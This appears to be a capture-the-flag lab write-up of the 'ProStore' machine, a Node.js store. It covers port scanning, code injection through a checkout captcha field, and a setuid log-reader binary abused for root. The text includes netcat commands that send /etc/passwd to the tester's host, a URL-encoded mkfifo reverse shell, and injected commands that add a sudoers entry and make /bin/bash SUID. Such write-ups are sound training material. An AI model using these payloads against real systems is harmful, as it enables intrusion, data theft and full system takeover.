---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# ProStore

## Enumeration

### Nmap

Started with a full TCP Syn Scan via Nmap. The results:


```
# Nmap 7.94SVN scan initiated Tue May 28 17:35:33 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.191.250
Nmap scan report for 192.168.191.250
Host is up (0.058s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1c:19:57:44:ae:0d:f4:06:b1:bc:ee:35:d0:c7:53:31 (ECDSA)
|_  256 cf:a2:3b:50:fd:d0:38:0f:4b:bb:68:2f:b9:a9:02:20 (ED25519)
80/tcp   closed http
443/tcp  closed https
5000/tcp open   http    Node.js (Express middleware)
|_http-title: ProStore
Device type: general purpose|storage-misc|firewall|WAP|webcam
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X|2.4.X (86%), Synology DiskStation Manager 5.X (86%), WatchGuard Fireware 11.X (86%), Tandberg embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3.10 cpe:/o:linux:linux_kernel:4.2 cpe:/o:linux:linux_kernel cpe:/a:synology:diskstation_manager:5.1 cpe:/o:watchguard:fireware:11.8 cpe:/o:linux:linux_kernel:2.4 cpe:/h:tandberg:vcs
Aggressive OS guesses: Linux 2.6.32 (86%), Linux 2.6.32 or 3.10 (86%), Linux 3.5 (86%), Linux 4.2 (86%), Linux 4.4 (86%), Synology DiskStation Manager 5.1 (86%), WatchGuard Fireware 11.8 (86%), Linux 2.6.35 (85%), Linux 2.6.39 (85%), Linux 3.10 - 3.12 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   56.46 ms 192.168.45.1
2   56.42 ms 192.168.45.254
3   57.71 ms 192.168.251.1
4   57.69 ms 192.168.191.250

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 28 17:37:41 2024 -- 1 IP address (1 host up) scanned in 128.05 seconds
```


This presented a pretty limited set of options.

I looked into the OpenSSH banner via [Launchpad](https://launchpad.net/ubuntu/+source/openssh) but it did not appear to be a bundled one. Though It is in between 2 versions bundled with Jammy Jellyfish so perhaps it came with the OS, was updated at install time and not touched again.

### Port 5000

Port 5000 appears to be some sort of web store.

#### Whatweb

`whatweb` did not really turn up anything useful:


```
http://prostore.offsec:5000 [200 OK]
    Country[RESERVED][ZZ],
    IP[192.168.191.250],
    Script,
    Title[ProStore],
    X-Powered-By[Express],
    X-UA-Compatible[IE=edge]
```


#### Feroxbuster

Ran `feroxbuster` against the store with:


```bash
feroxbuster -L 20 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -k -x @ferox_extensions.txt -C 404 -E -r -u http://prostore.offsec:5000 -o p5000.feroxbuster
```


It revealed some results but nothing terribly helpful:


```
...
200      GET       33l      185w    11035c http://prostore.offsec:5000/images/image.png
200      GET       48l       99w     1589c http://prostore.offsec:5000/auth/register
200      GET      105l      229w     2636c http://prostore.offsec:5000/script/main.js
200      GET      218l      395w     3067c http://prostore.offsec:5000/css/main.css
200      GET       44l       83w     1303c http://prostore.offsec:5000/auth/login
200      GET       71l      207w     3620c http://prostore.offsec:5000/
401      GET       36l       66w      967c http://prostore.offsec:5000/checkout
```


#### Nikto

<figure><figcaption><p>Nikto scan results</p></figcaption></figure>

The `wp-config.php` seems to have been a false positive

## Foothold

Since nothing appears vulnerable to a simple RCE exploit I must try some other methods. I begin poking around the interface manually while proxying it all through Burp:

* I create a user `test:Password123!`
* I login as said user
* I complete an order via the `/checkout` page

### Injecting the Checkout Page

The checkout page can be accessed with a logged in account:

<figure><figcaption><p>Checkout page</p></figcaption></figure>

While completing the checkout I attempt to throw some characters in fields for SQLi such as `'"#$;` but none of this was fruitful. Once I went back to Burp to see what I had done I found something.

#### Identifying the Parameter

At first I missed the inject-able parameter because I was running it in the browser but upon closer examination I found the extra field:

<figure><figcaption><p>captcha is added</p></figcaption></figure>

I start messing with this. First I type another number (`1`) and get a captcha error:

<figure><figcaption><p>Captcha error</p></figcaption></figure>

I try a string `abc`:

<figure><figcaption><p>Reference error</p></figcaption></figure>

After some googling it turns out this is just what happens when a non-existent variable is referenced in JavaScript. This indicates this code is being executed. To test this theory I place `3*1` in the `captcha=` field:

<figure><figcaption><p>Thanks for shopping page</p></figcaption></figure>

&#x20;It redirects to the "Thanks for shopping!" page which indicates the field executed successfully. I try some other things with various results:

* `2+1` - Syntax error as `+` is treated as a space
* `2%2B1` (URL-encoded `+`) - Captcha error&#x20;
* `4-1` - Captcha error
* `3/1` - Success

#### Node.js Code Execution

According to [this post](https://stackoverflow.com/questions/1880198/how-to-execute-shell-commands-in-javascript) it is possible to use Node.js for code execution with the general structure:

```javascript
require('child_process').exec('cmd')
```

* `cmd` is replaced by whatever OS command the caller wishes to use

Given that I have an injection point and a way to execute commands on the underlying machine, now it is time to see if it can be used to for a foothold. I need a command that will reach out so I plan to use Netcat. Since the `-e` flag is often disabled I will just start by piping the id command to Netcat. It will not be interactive but the output can still be caught. The OS command is:

```bash
id | nc 192.168.45.234 80
```

In the request this is modified with `+` for spaces:

<figure><figcaption><p>Test execution request</p></figcaption></figure>

I start a listener and submit the request. Success:

<figure><figcaption><p>Command retrieved</p></figcaption></figure>

* Some trial and error was needed to find port `80` as it was the only one I could get this working on (tried `22` and `8000`)it,&#x20;

I noticed I had to restart the listener each time to catch a response but at least I had execution in some form! I also used this to leak the `/etc/passwd` file mostly to test if `/` could be used in the command:

```javascript
require('child_process').exec('cat+/etc/passwd|nc+192.168.45.234+80')
```

Now that I know spaces must be `+`'s and `/`'s are allowed I am all set.

#### Getting a Shell

So knowing that I have execution opened up the possibilities. I just need some Netcat reverse shell launcher. I turn to the trusty [revshells.com](https://www.revshells.com/) and start working. First I will try my favorite the `mkfifo ...` shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.234 80 >/tmp/f
```

But I need to replace any spaces with `+`'s first. Eventually I decided to just put the command in as the Address, captured it and use it:


```
rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Csh+-i+2%3E%261%7Cnc+192.168.45.234+80+%3E%2Ftmp%2Ff
```


This is placed inside the `require()...` command:


```javascript
require('child_process').exec('rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Csh+-i+2%3E%261%7Cnc+192.168.45.234+80+%3E%2Ftmp%2Ff')
```


And submitted with Burp creating a shell:

<figure><figcaption><p>Burp shell request</p></figcaption></figure>

<figure><figcaption><p>Listener catching incoming shell</p></figcaption></figure>

User access achieved as `observer`.

## Privilege Escalation

With the shell set up I did some testing and found I could reach out over port `5000` so I switched the shell to that port in order to make using my Apache server easier. I could have moved the server to a different port but it was easier to move the shell than to change the config files and then change them back.

### Enumeration

#### PEAS

Started with LinPEAS:

```bash
./linpeas.sh -a > observer.peas
```

Moved it back to my machine and converted to HTML for easier viewing. Nothing immediately jumped out at me.

#### pspy


### Examining Unknown Binary

#### GNU Debugger (gdb)

In the linPEAS output's "Useful Software" section it was noted that [`gdb`](https://man7.org/linux/man-pages/man1/gdb.1.html) is installed on this machine. `gdb` is a highly useful debugger for Linux binaries. It allows a user to examine the execution steps of the binary. Some useful commands can be found on [this cheat sheet](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf).

I started the binary with `gdb` is stating that it cannot find the source code file:

<figure><figcaption></figcaption></figure>

Since it was likely moved out of the `/tmp` directory I decide to search around a bit:

```
find / -type f -name "log_reader.c" 2>/dev/null
```

I find it in `/usr/share/src`. I grab a copy of it and examine it:


```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {

    if (argc != 2) {
        printf("Usage: %s filename.log\n", argv[0]);
        return 0;
    }

    char *filename = argv[1];
    char *result;
    result = checkExtention(filename, result);

    if (result != NULL) {
        readFile(filename);
    }

    return 0;
}

void checkExtention(char *filename, char *result) {
    char *ext = strchr(filename, '.');

    if (ext != NULL) {
        result = strstr(ext, ".log");
    }
}

void readFile(char *filename) {
    setuid(0);
    setgid(0);

    printf("Reading: %s\n", filename);

    char command[200] = "/usr/bin/cat ";
    char output[10000];
    FILE *result;

    strcat(command, filename);
    result = popen(command, "r");
    fgets(output, sizeof(output), result);
    printf("%s\n", output);
}
```


Examining the file some things become clear:

1. Executable will take a file path as an argument (supposed to be path to log file)
2. `checkExtension()` is used to ensure that the value passed contains "`.log`"&#x20;
3. Provided filename is concatenated to "`/usr/bin/cat` " in line 40
4. Command is executed via [`popen()`](https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html) call

What is most interesting is that the only validation checks on the argument are that it contains .log in the string. The check is presumably supposed to ensure it ends in `.log` but the way it is written it actually just ensures it contains `.log`.  Perhaps a second command could be tacked on with the `&&` or `;` operators for `bash`.

In normal operation the command would be run:

<pre class="language-bash"><code class="lang-bash"><strong>/usr/local/bin/log_reader example.log
</strong></code></pre>

Under the hood, after checking for .log, log\_reader is just running:

```bash
/usr/bin/cat example.log
```

Perhaps I could call the program:

```bash
/usr/local/bin/log_reader 'example.log;id'
```

* I enclose the argument in apostrophes `'` (or quotes `"`) to ensure it is treated as a single string

Hopefully causing the program to execute:

```
/usr/bin/cat example.log;id
```

This worked:

<figure><figcaption><p>Output of the attempt</p></figcaption></figure>

Even better it seems the command is executed in the context of the `root` user.

### Getting Elevated Shell

So now it seems I have the ability to run commands in the context of the root user. At this point I could maybe try to get a shell running as the user but the netork is so locked down that does not seem like the easiest path. Instead it would make more sense to either:

1. Add the user I have a shell for (`observer`) to the sudoers list for all commands
2. Create a known exploitable scenario by changing binary permissions
   1. E.g. adding SUID to `bash` which makes it exploitable via this GTFOBins [technique](https://gtfobins.github.io/gtfobins/bash/#suid)

#### Adding a sudoer

Adding a user (`observer`) to sudo for all commands is as simple as adding the following line to the `/etc/sudoers` file:

```
observer ALL=(root) NOPASSWD: ALL
```

This can be dine via the `log_reader` binary:


```bash
/usr/local/bin/log_reader 'example.log;echo "observer ALL=(root) NOPASSWD: ALL" >> /etc/sudoers'
```


At which point the user can simply use `sudo` for anything:

<figure><figcaption><p>sudo privilege escalation vector</p></figcaption></figure>

#### Modifying an Existing Binary

A secondary technique is to modify an existing binary (in this case `/bin/bash`) to create known exploit conditions.&#x20;

As mentioned above bash is vulnerable to a privilege escalation technique when SUID is enabled for the binary. The `root` user is able to enable SUID for any binary via the command:

```bash
chmod u+s <path_to_binary>
```

This can also be done in the context of the `root` user via the `log_reader` binary:

```bash
/usr/local/bin/log_reader 'example.log;chmod u+s /bin/bash'
```

Then the [GTFOBins technique](https://gtfobins.github.io/gtfobins/bash/#suid) of running bash with the `-p` flag can be used to elevate privileges:

```bash
/bin/bash -p
```

This also worked:

<figure><figcaption><p>Elevated privileges via bash</p></figcaption></figure>

Machine completed!

## Lessons

### Node.js Command Injection

Usually JavaScript is not a vector for command injection since it is often client side. XSS or other things are viable but straight up using it to get a shell on the victim's machine is usually out because it is hard to run OS commands via JavaScript. Node.js does offer the ability to run commands on the underlying machine making it vulnerable to injection where not properly sanitized.&#x20;

### Existing Binary Permission Modification for Privilege Escalation

I had not previously seen the technique to modify an existing binary with SUID privileges for privilege escalation.

I wasted some time trying to get a shell as the root user after finding the command injection point but it was so much simpler to just run a single command as `root` that allowed easy transformation of the shell I already had to a privileged one.
